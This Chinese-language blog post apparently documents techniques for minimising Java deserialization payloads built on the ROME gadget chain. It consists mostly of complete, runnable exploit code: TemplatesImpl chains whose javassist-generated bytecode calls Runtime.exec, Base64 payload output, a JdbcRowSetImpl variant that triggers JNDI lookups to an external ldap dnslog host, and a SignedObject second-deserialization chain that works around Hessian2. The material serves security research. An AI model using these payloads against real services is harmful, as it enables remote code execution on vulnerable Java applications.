

##  前言

对于payload的缩小技术，重点在三个位置：

- 序列化数据本身的缩小（缩小链子）
- 针对`TemplatesImpl`中`_bytecodes`字节码的缩小
- 对于执行的代码如何缩小（`STATIC`代码块）

##  环境搭建

```xml
        <!-- https://mvnrepository.com/artifact/com.alibaba/fastjson -->
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
```

##  改进1

payload1:

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Rome {
    public static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field =obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        new CodeResolve().process("ROME1.0\\src\\main\\java\\org\\example\\Resolver\\calc.class");
        byte[] code= Files.readAllBytes(Paths.get("ROME1.0\\src\\main\\java\\org\\example\\Resolver\\calc.class"));
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z");
        setFieldValue(templates, "_tfactory", null);
        ObjectBean objectBean=new ObjectBean(ObjectBean.class,new ObjectBean(String.class,"z3eyond"));
        HashMap hashMap=new HashMap();
        //这个put也会触发，所以先传一个正常的ObjectBean
        hashMap.put(objectBean,"z3eyond");
        //恶意类
        ObjectBean objectBean1=new ObjectBean(Templates.class,templates);
        setFieldValue(objectBean,"_equalsBean",new EqualsBean(ObjectBean.class,objectBean1));
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())).length());
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
}
```

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class calc extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public calc() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
    }
}
```

这个payload就是我们之前分析过的一个payload

这个payload，我们注意优化的有三点：

- 设置`_name`名称可以是一个字符
- 其中`_tfactory`属性可以删除，不会影响序列化和反序列化（分析`TemplatesImpl`得出）
- 其中`calc`类直接在构造函数上加`throws Exception`，这样就避免了一个`try catch`语句

然后就是通过字节码的层面去删除了`LineNumberTable`

我们不能删除局部变量表和异常表，但是可以删除行表


利用ASM删除行表：

```xml
  <dependency>
            <groupId>org.ow2.asm</groupId>
            <artifactId>asm</artifactId>
            <version>6.2</version>
        </dependency>
```

```java
package org.example.Resolver;

import org.objectweb.asm.ClassReader;
import org.objectweb.asm.ClassVisitor;
import org.objectweb.asm.ClassWriter;
import org.objectweb.asm.Opcodes;

import java.nio.file.Files;
import java.nio.file.Paths;

public class CodeResolve {
    public static void process(String path) throws Exception{
        byte[] bytes = Files.readAllBytes(Paths.get(path));
        ClassReader cr = new ClassReader(bytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM6;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();
        Files.write(Paths.get(path), out);
    }
}

```

```java
package org.example.Resolver;

import org.objectweb.asm.ClassVisitor;
import org.objectweb.asm.MethodVisitor;

public class ShortClassVisitor extends ClassVisitor {
    private final int api;

    public ShortClassVisitor(int api, ClassVisitor classVisitor) {
        super(api, classVisitor);
        this.api = api;
    }

    @Override
    public MethodVisitor visitMethod(int access, String name, String descriptor, String signature, String[] exceptions) {
        MethodVisitor mv = super.visitMethod(access, name, descriptor, signature, exceptions);
        return new ShortMethodAdapter(this.api, mv);
    }
}

```

```java
package org.example.Resolver;

import org.objectweb.asm.Label;
import org.objectweb.asm.MethodVisitor;
import org.objectweb.asm.Opcodes;

public class ShortMethodAdapter extends MethodVisitor implements Opcodes {

    public ShortMethodAdapter(int api, MethodVisitor methodVisitor) {
        super(api, methodVisitor);
    }

    @Override
    public void visitLineNumber(int line, Label start) {
        // delete line number
    }
}

```


##  改进2

在上面的payload，我们的恶意类是固定的，不能动态构造，我们可以利用`javassist`进行动态构造，这样可以缩小我们的payload长度

其中删除了重写方法，同时将命令执行语句放到无参构造函数中，而不是static语句

参考：https://xz.aliyun.com/t/10824

同时链子也可以缩小

`ObjectBean`的hashCode函数到`beanHashCode`

如果我们将`_obj`设置为`toStringBean`,就可以直接触发`toStringBean`的`toString`函数，不需要再次回到`ObjectBean`,这样也缩小了payload

代码：长度只有`1712`

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Rome1 {
    private static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        return bytes;
    }
    private static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    private static  byte[] serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(obj);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
        return baos.toByteArray();
    }
    private static byte[] Base64Encode(byte[] bytes){
        return Base64.getEncoder().encode(bytes);
    }
    public static void main(String[] args) throws Exception{
        String cmd="calc";
        byte[] code=getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z");
        setFieldValue(templates, "_tfactory", null);
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        ObjectBean objectBean=new ObjectBean(ToStringBean.class,toStringBean);
        HashMap hashMap=new HashMap();
        hashMap.put(objectBean,"z");
        setFieldValue(objectBean, "_cloneableBean", null);
        setFieldValue(objectBean, "_toStringBean", null);
        byte[] bytes=serialize(hashMap);
        byte[] base64_byte=Base64Encode(bytes);
        System.out.println(new String(base64_byte));
        System.out.println(new String(base64_byte).length());
    }
}

```

##  改进3

这个就是在上面的基础上，改变了反序列化链子

上面的链子是通过`toString`来`pReadMethod.invoke`的

我们在CC5中利用`BadAttributeValueExpException`的`toString`方法，但是这个链子最后写下来很长

在`EqualsBean`看到可以利用`equals`来``pReadMethod.invoke``


怎么触发这个`equals`方法（显然JDK721的原生链是不可以的）

我们利用了CC7的`Hashtable`来进行sink


跟进`reconstitutionPut`

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

我们让`e.key=hashMap类`，因为hashMap中的对象大于1，所以进入hashMap的父类`AbstractMap`,调用其`equals`方法，在这个位置触发`equals`方法


关于构造`e.key=hash`的方法，CC7中讲过

触发时满足`value=EqualsBean,m.get(key)=TemplateImpl`

直接给payload（分析见链接）

https://y4tacker.github.io/2022/03/07/year/2022/3/ROME%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92/#Step1%E2%80%93%E6%94%B9%E9%80%A0%E5%88%A9%E7%94%A8%E9%93%BE

得到最后的长度为`1448`

```java
package org.example.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Rome3 {
    private static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        return bytes;
    }
    private static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        String cmd ="calc";
        byte[] code=getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z");
        setFieldValue(templates, "_tfactory", null);
        EqualsBean bean = new EqualsBean(String.class,"");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",templates);
        map1.put("bB",bean);
        map2.put("aa",bean);
        map2.put("bB",templates);
        //HashMap map = new HashMap();
        Hashtable map=new Hashtable();
        map.put(map1,"");
        map.put(map2,"");

        setFieldValue(bean,"_beanClass", Templates.class);
        setFieldValue(bean,"_obj",templates);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())).length());
        ByteArrayInputStream bais=new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
}

```

## 改进4

利用分块传输技术，看看这个https://xz.aliyun.com/t/10824#toc-3

## 利用Rome链触发JNDI注入

在`JdbcRowSetImpl`类中，存在`getDatabaseMetaData()`方法




rome链中，就是触发了`getter`方法，所以也可以通过这个链子达到JNDI注入

connect方法：


直接给出payload：


```java
public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://uegm8s.dnslog.cn/a");
        jdbcRowSet.setMatchColumn(new String[]{"a"});
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", jdbcRowSet);
        map2.put("zZ", bean);
        map2.put("yy", jdbcRowSet);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", JdbcRowSetImpl.class);
        setFieldValue(bean, "_obj", jdbcRowSet);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(table);
        System.out.println(new String(baos.toByteArray()).length());
        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
```

这个我们还是可以继续缩小payload：(利用其他人的思路)

新链2长度很大的原因是因为 `JdbcRowSetImpl` 这个类的对象太大了，方法巨多，本来优化的思路是用ASM把没用的属性和方法全部扬了，但是这个类的类加载器是 `BootStrap` ，位于双亲委派的最顶层，所以修改过后的字节码没办法再次加载。

另一个优化思路是把没用的属性全部改为null，但是要注意不能影响sink的最终执行结果，所以这里要对照 `pds[]` 中 getter 方法的顺序选择对应的属性进行修改：

```java
public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://uegm8s.dnslog.cn/a");
        jdbcRowSet.setMatchColumn(new String[]{"a"});
        clear(jdbcRowSet);
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", jdbcRowSet);
        map2.put("zZ", bean);
        map2.put("yy", jdbcRowSet);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", JdbcRowSetImpl.class);
        setFieldValue(bean, "_obj", jdbcRowSet);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(table);
        System.out.println(new String(baos.toByteArray()).length());
        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
    static void clear(JdbcRowSetImpl jdbcRowSet) throws Exception {
        setFieldValue(jdbcRowSet, "iMatchColumns", null);
        setFieldValue(jdbcRowSet, "resBundle", null);
        Class<?> clazz = Class.forName(BaseRowSet.class.getName());
        Field fee = clazz.getDeclaredField("listeners");
        fee.setAccessible(true);
        fee.set(jdbcRowSet, null);

        fee = clazz.getDeclaredField("params");
        fee.setAccessible(true);
        fee.set(jdbcRowSet, null);
    }
```


## Rome链和二次反序列化

在一些其他的反序列化方式，例如Hessian(2)，如果使用这种序列化/反序列化的话，我们的链可能会出现问题，原因是我们的Sink不能再使用TemplatesImpl类，原因是: 这种反序列化不会触发`TemplatesImpl.readObject()`方法，导致反序列化出来的`TemplatesImpl._tfactory`属性为空(这个属性存在transient关键字修饰，无法序列化)，这样导致我们最后没办法利用`TemplatesImpl#defineTransletClasses`方法去实现任意java代码执行。

在这种情况下实际上我们就只剩下JNDI这一条路，但加入目标不出网/JDK版本过高的话，JNDI并不好用的

我们可以用二次反序列化，我们知道EqualsBean/ToStringBean这几个类最终会触发某个类的所有getter，那么假如存在一个类其getter方法又会使用java原生反序列化，而且其反序列化内容我们可以控制的话，我们就可以进行绕过了，这个类正是`java.security.SignedObject`:


在这个方法，可以进行原生的反序列化。

看他的构造方法：

将传进来的object进行序列化存到content，然后`getObject`又对content进行反序列化。


所以我们就可以将需要序列化的`table`传到`SignedObject`，进行序列化，然后再次利用这个rome链触发调用`getObject`，这样就可以达到命令执行


payload：

```java
package org.example.Rome;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;
import java.util.Hashtable;

public class Rome5 {
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
    }
    public static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        return bytes;
    }
    public static Hashtable getPayload(Class clazz,Object obj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", obj);
        map2.put("zZ", bean);
        map2.put("yy", obj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", obj);

        return table;
    }
    public static void main(String[] args) throws Exception{
        String cmd="calc";
        byte[] code= getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "A");
        setFieldValue(templates, "_tfactory",null);
        Hashtable table1 = getPayload(Templates.class, templates);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(bos);
        hessianOutput.writeObject(table2);
        hessianOutput.getBytesOutputStream().flush();
        hessianOutput.completeMessage();
        hessianOutput.close();

        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        Hessian2Input hessianInput = new Hessian2Input(bis);
        hessianInput.readObject();
    }
}

```

## 参考：

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BROME/

https://xz.aliyun.com/t/10824#toc-3